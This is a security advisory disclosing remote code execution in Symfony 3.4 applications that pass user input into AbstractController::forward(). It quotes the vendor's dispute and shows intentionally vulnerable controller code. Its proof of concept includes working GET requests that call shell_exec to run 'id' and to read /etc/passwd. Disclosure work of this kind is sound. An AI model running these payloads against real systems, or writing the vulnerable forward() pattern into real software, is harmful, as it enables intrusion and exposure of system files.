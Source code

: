 **Vulnerability Summary**<br>
The following advisory describes a vulnerability found in Symfony 3.4 – a PHP framework that is used to create websites and web applications. Built on top of the Symfony Components. Under certain conditions, the Symfony framework can be abused to trigger RCE in the HttpKernel (http-kernel) component, while forward() is considered by the vendor as an equivalent to eval() (in its security implications) – there is no mentioning of this in the current documentation.

**Vendor Response**<br>
“As previously noted, unless there is something we are missing, the forward() method itself does not have a security vulnerability, but you believe having public methods that accept callables as arguments is in itself a security vulnerability. The forward() method allows you to pass a callable to it which, like many methods in many libraries including many common functions in PHP core such as array_filter (https://secure.php.net/manual/en/function.array-filter.php), if you pass untrusted user input into it, then it could result in remote code execution.
As with SQL queries, outputting data onto a page, using callables or using eval(), if you pass untrusted user input into them, it can result in security issues whether it be remote code execution, SQL injection or an XSS issue. As a framework, Symfony will attempt to aid users to write more secure code and provide tools for this, but a framework cannot assume complete and total responsibility as developers can always write insecure code and should always be aware of how they use unvalidated user input.
As I hope I’ve explained we do not believe this to be a security vulnerability, but if you believe we are still missing something, please do let us know.”
We disagree with this assessment, looking up examples of how to use forward(), there is no mentioning by anyone that you should filter user provided data as it may trigger a code execution vulnerability (unlike eval() equivalent or SQL statements equivalent examples), we therefore believe its prudent to publicly announce this issue.

**Credit**<br>
Independent security researcher, Calum Hutton, have reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
Symfony Framework 3.4.* Running on Linux Systems.

**Vulnerability Details**<br>
The vulnerability occurs when the untrusted user data is passed into the forward() function provided by the frameworks AbstractController class. If this function is called in application code with untrusted user input, the application is potentially at risk of this issue.
Symfony allows for controllers to be any PHP callable (https://symfony.com/doc/current/controller.html#a-simple-controller) which gives great flexibity to the developer, but also potentially unforeseen consequences. Because of this, the string ‘system’ would be considered a valid controller, as it is a valid callable and would resolve to the builtin system() function. Symfony would successfully resolve and instantiate the controller instance and attempt to resolve the arguments required to call the new controller from the provided arguments and request context. This would normally fail (depending on the names, and number of arguments), causing the entire controller resolution to fail. One array that is searched for appropriate argument names during argument resolution is the path array passed into the AbstractController::forward() function.
Hence, by controlling the first (controller name/callable) and at least partially the second (path array) parameters of the AbstractController::forward() function, it is possible to call arbitrary PHP functions leading to RCE.
How to Exploit
One way developers might introduce parameters into the path array to pass on to the forwarded controller is through named URL route parameters. Consider the following route definition:
forward:
```shell
path: /forward/{controller}/{cmd}
defaults: { _controller: 'App\Controller\BaseController::myForward1' }
```

Both the controller and cmd route parameters will be passed into the BaseController::myForward1 controller:

```php
public function myForward1($controller, $cmd, array $path = array(), array $query = array()) {
 // Add the cmd var to the path array
 if ($cmd) {
  $path = compact('cmd');
 }
 return $this->forward($controller, $path, $query);
}
```

In this example route and controller, the cmd parameter is added to the path array (with the name cmd) that is passed into the AbstractController::forward() function. At this point, the controller is vulnerable to RCE with the below GET request: http://127.0.0.1/forward/shell_exec/id
By adding the cmd argument to the path array in the controller, and calling it cmd, Symfony will correctly resolve both the controller and arguments required for the shell_exec() PHP builtin function (http://php.net/manual/en/function.shell-exec.php). Once the controller and arguments are successfully resolved the controller is executed. Specifically in the above example URL, calling the Linux OS ‘id’ command. An alternative but still vulnerable route and controller combination is shown below, where URL query parameters from the request are merged into the path array and used in the AbstractController::forward() function.
forward:

```shell
path: /forward/{controller}/{cmd}
defaults: { _controller: 'App\Controller\BaseController::myForward2' }
```
```php
public function myForward2($controller, array $path = array(), array $query = array()) {
 // Get current request
 $req = App::getRequest();
 // Populate path vars from query params
 $path = array_merge($path, $req->query->all());
 return $this->forward($controller, $path, $query);
}
```
With a configuration such as this, the same command could be run with the GET request:
`http://127.0.0.1/forward2/shell_exec?cmd=id`

**PoC**<br>
With the following PHP page called ‘index.php’ located in the public symfony directory:

```php
<?php
use App\Core\App;
use Symfony\Component\Debug\Debug;
use Symfony\Component\Dotenv\Dotenv;
use Symfony\Component\HttpFoundation\Request;
require __DIR__.'/../vendor/autoload.php';
// The check is to ensure we don't use .env in production
if (!isset($_SERVER['APP_ENV'])) {
    if (!class_exists(Dotenv::class)) {
        throw new \RuntimeException('APP_ENV environment variable is not defined. You need to define environment variables for configuration or add "symfony/dotenv" as a Composer dependency to load variables from a .env file.');
    }
    (new Dotenv())->load(__DIR__.'/../.env');
}
if ($trustedProxies = $_SERVER['TRUSTED_PROXIES'] ?? false) {
    Request::setTrustedProxies(explode(',', $trustedProxies), Request::HEADER_X_FORWARDED_ALL ^ Request::HEADER_X_FORWARDED_HOST);
}
if ($trustedHosts = $_SERVER['TRUSTED_HOSTS'] ?? false) {
    Request::setTrustedHosts(explode(',', $trustedHosts));
}
$env = $_SERVER['APP_ENV'] ?? 'dev';
$debug = (bool) ($_SERVER['APP_DEBUG'] ?? ('prod' !== $env));
if ($debug) {
    umask(0000);
    Debug::enable();
}
$app = new App($env, $debug);
$request = App::getRequest();
$response = $app->handle($request);
$response->send();
$app->terminate($request, $response);
```

We can issue a GET Request for the next URL:<br>
`http://localhost:8000/forward2/shell_exec?cmd=cat%20/etc/passwd`
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Symfony-passwd-file.png"><br>

